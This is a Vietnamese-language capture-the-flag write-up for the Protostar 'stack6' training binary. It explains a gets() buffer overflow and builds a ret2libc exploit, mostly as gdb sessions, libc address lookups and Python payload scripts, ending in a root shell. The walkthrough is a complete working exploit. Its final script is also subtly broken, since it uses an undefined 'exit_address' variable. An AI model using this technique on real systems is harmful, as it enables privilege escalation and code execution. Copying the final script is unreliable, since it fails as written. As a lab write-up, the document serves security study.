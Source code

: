 # **stack6**
## Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

- Phân tích: Trong hàm getpath() có biến ret lấy return address để check, nếu ret >= 0xbf000000 thì gọi hàm _exit() => không thể ghi đè lên return address địa chỉ của stack.

## Vulnerability
gets()

## Exploit
- Sử dụng ret2libc: không cần shell code, thực thi hàm có sẵn trong libc.

- Phân tích stack của hàm getpath():

  <img src="pictures/getpath_stack.png">

=> ghi đè lên hết buffer và ebp cần 0x4c + 0x4 = 0x50 bytes

- Tìm địa chỉ hàm system trong libc: 
```
(gdb) p system
$11 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
```

- 0x50 bytes rác và địa chỉ system, ta sẽ ghi đè được địa chỉ system lên return address của hàm getpath():
```
import struct
padding = 'a'*(0x4c + 0x4)
eip = struct.pack("I", 0xb7ecffb0)

print(padding + eip)
```
- Kết thúc hàm getpath, ta vào được system.
- Khi vào system, system sẽ nghĩ stack như sau:

  <img src="pictures/system_stack.png">

- Hàm system nghĩ rằng đỉnh stack đang chứa return address của nó và đỉnh stack + 0x4 là argument. Do đó, ta cũng có thể quyết định return address của system và arguments của hàm system dùng python script sau:
```
import struct
padding = 'a'*(0x4c + 0x4)
eip = struct.pack("I", 0xb7ecffb0)
system_retaddress = struct.pack("I", 0x........)    #system's return address
argument = struct.pack("I", 0x........)             #system's argument

print(padding + eip + system_retaddress + argument)
```
- Để hàm system gọi shell, ta cần để argument là địa chỉ đến string "/bin/sh":
  - Có thể tạo 1 biến môi trường để chương trình tự động push vào stack. Cách này thì địa chỉ của string có thể bị xê dịch, không cố định.
  - Dùng string "/bin/sh" có sẵn trong thư viện libc. Địa chỉ string /bin/sh cố định.

- Sử dụng lệnh info proc map trong gdb để tìm địa chỉ đầu và cuối của thư viện libc:
```
(gdb) info proc map
process 6731
cmdline = '/opt/protostar/bin/stack6'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0       /opt/protostar/bin/stack6
         0x8049000  0x804a000     0x1000          0       /opt/protostar/bin/stack6
        0xb7e96000 0xb7e97000     0x1000          0
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0
        0xb7fe0000 0xb7fe2000     0x2000          0
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
```
- Sử dụng lệnh find [địa chỉ đầu][địa chỉ cuối] pattern để tìm kiếm string "/bin/bash"
```
(gdb) find 0xb7e97000, 0xb7fd9000, "/bin/sh"
0xb7fba23f
1 pattern found.
```
- Kiểm tra:
```
(gdb) x/1s 0xb7fba23f
0xb7fba23f:      "KIND in __gen_tempname\""
```
- ???
- Kiểm tra bằng lệnh strings:
```
user@protostar:/tmp$ strings /lib/libc-2.11.2.so | grep "/bin/sh"
/bin/sh
```
- Có, dùng strings để lấy vị trí của "/bin/sh" trong thư viện:
```
user@protostar:/tmp$ strings -t x /lib/libc-2.11.2.so | grep "/bin/sh"
 11f3bf /bin/sh
```
- Lấy địa chỉ của thư viện được nạp vào khi chạy chương trình + địa chỉ vừa tìm được qua lệnh strings: 0xb7e97000 + 0x11f3bf.
- Kiểm tra lại bằng gdb:
```
(gdb) x/1s 0xb7e97000 + 0x11f3bf
0xb7fb63bf:      "/bin/sh"
```
- OK!
- Thay vào script:
```
import struct
padding = 'a'*(0x4c + 0x4)
eip = struct.pack("I", 0xb7ecffb0)
system_retaddress = struct.pack("I", 0x........)                #system's return address
argument = struct.pack("I", 0xb7e97000 + 0x11f3bf)              #system's argument

print(padding + eip + system_retaddress + argument)
```
- Chạy thử:
```
user@protostar:/opt/protostar/bin$ (python /tmp/script6.py; cat) | ./stack6
input path please: got path aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaac
whoami
root
^C
Segmentation fault
user@protostar:/opt/protostar/bin$ 
```
- Đã lấy được shell root, tuy nhiên khi kết thúc chương trình ta bị segmentation fault do ta đã chọn bừa một địa chỉ cho vào system return address.
- Tìm kiếm địa chỉ hàm exit thay vào, ta sẽ thoát chương trình bình thường. => Final python script: 
```
import struct

padding = 'a'*(0x4c + 0x4)
eip = struct.pack("I", 0xb7ecffb0)
system_retaddress = struct.pack("I", 0xb7ec60c0)
argument = struct.pack("I", 0xb7e97000 + 0x11f3bf)

print(padding + eip + exit_address + argument)
```
- Final run:
```
user@protostar:/opt/protostar/bin$ (python /tmp/script6.py ; cat) | ./stack6
input path please: got path aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa`췿c
whoami
root
^C
user@protostar:/opt/protostar/bin$ 
```

# References
- ret2libc: https://web.ecs.syr.edu/~wedu/Teaching/CompSec/LectureNotes_New/Buffer_Overflow.pdf